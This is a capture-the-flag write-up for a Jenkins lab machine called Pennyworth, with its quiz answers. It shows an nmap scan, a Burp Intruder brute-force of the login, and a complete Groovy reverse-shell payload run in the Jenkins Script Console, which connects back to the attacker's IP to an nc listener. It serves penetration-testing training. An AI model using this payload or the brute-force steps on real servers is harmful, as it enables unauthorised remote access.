 # Pennyworth      

![Pennyworth](./Screenshots/pennylogo.png)

## Solution

### Scan with nmap

Type:

```
nmap -sC -sV {target ip} -v
```

![nmap](./Screenshots/pennynmap.png)

Only `http` service is running. Port `8080/tcp`.

After pasting `http://{target ip}:8080/` into the browser we can see website.

![web](./Screenshots/pennyweb.png)

### Burpsuite

Before trying `SQL Injection` or some other attacks, let's try to brute force credentials first.

Intercept the request.

![Burpsuite](./Screenshots/pennyburp.png)

![Burpsuite](./Screenshots/pennyburp2.png)

Send it to `Intruder` using `Ctrl + I` combination.

Mark `test` after password and click `Add §` icon.

To save your time, let's start enumerating with `root` as `username`.

![Burpsuite](./Screenshots/pennyburp3.png)

Go to `Payloads` section and in `Payload settings` load payload which you want to use.

![Burpsuite](./Screenshots/pennyburp4.png)

If all of the above is done press `Start attack`.

![Burpsuite](./Screenshots/pennyburp5.png)

We can see that the password is `password`.

So our credentials are:

```
root:password
```

Try to log in.

![login](./Screenshots/pennylogin.png)

We are in `Administrator` pannel.

![login](./Screenshots/pennylogin2.png)

In `Manage Jenkins` section there is `Script Console`.

![login](./Screenshots/pennylogin3.png)

`Jenkins Script Console` is a powerful feature in `Jenkins`, which is a popular open-source automation server used for continuous integration and continuous delivery (CI/CD). The `Script Console` allows administrators to execute Groovy scripts directly within the `Jenkins` environment. This feature provides a way to automate and manage `Jenkins` instances programmatically. Using the `Script Console`, administrators can perform complex automation tasks and administrative actions by leveraging Groovy, a scripting language that is similar to Java but more concise and flexible. The scripts have direct access to the Jenkins API, allowing interaction with all aspects of the `Jenkins` server, such as job configurations, build triggers, and system settings. Commands entered into the `Script Console` are executed in real-time, making it a powerful tool for immediate changes and troubleshooting.

Given our access to this, we can try to execute a command that will give us a `reverse shell` back to our local machine.

### Reverse Shell and Netcat 

To create `reverse shell` I almost always use this site: https://www.revshells.com/

To do this, we need `ip address` of our `tun0` interface as we are connected through VPN.

Type:

```
ip a | grep tun0
```

![revshell](./Screenshots/pennync.png)

If you have it, paste the `ip address` in the `ip` box and the port number you have selected in the `Port` box.

![revshell](./Screenshots/pennync2.png)

It should look like this:

```
String host="{your tun0 ip}";int port={port of your choice};String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Payload is ready.

Now it's time to start our `netcat` listener.

Type:

```
nc -lvnp {port you have chosen}
```

and press `Enter`

`-l` - Tells netcat to listen for an incoming connection rather than initiating an outbound connection.

`-v` - Enables verbose mode, which provides detailed output about the connection process, making it easier to debug.

`-n` - Prevents DNS lookup, allowing netcat to use numeric IP addresses and port numbers directly, which speeds up the connection process.

`-p` - Specifies the port number on which netcat should listen for incoming connections.

Finally, we can execute our reverse shell command.

![revshell](./Screenshots/pennync3.png)

Paste it into ` Script Console` and press `Run`.

Now we can go back to our `netcat` listener. We should successfully connect.

![revshell](./Screenshots/pennync4.png)

### Get the flag

Flag must be somewhere there.

![flag](./Screenshots/pennyflag.png)

### Paste the flag

![pwned](./Screenshots/pennypwned.png)

## Answers

### Task-1: What does the acronym CVE stand for?

Common Vulnerabilities and Exposures

### Task-2: What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?

confidentiality, integrity, availability

### Task-3: What is the version of the service running on port 8080?

Jetty 9.4.39.v20210325

### Task-4: What version of Jenkins is running on the target?

2.289.1

### Task-5: What type of script is accepted as input on the Jenkins Script Console?

Groovy

### Task-6: What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?

cmd.exe

### Task-7: What is a different command than "ip a" we could use to display our network interfaces' information on Linux?

ifconfig

### Task-8: What switch should we use with netcat for it to use UDP transport mode?

-u

### Task-9: What is the term used to describe making a target host initiate a connection back to the attacker host?

reverse shell

### Submit root flag

GG.
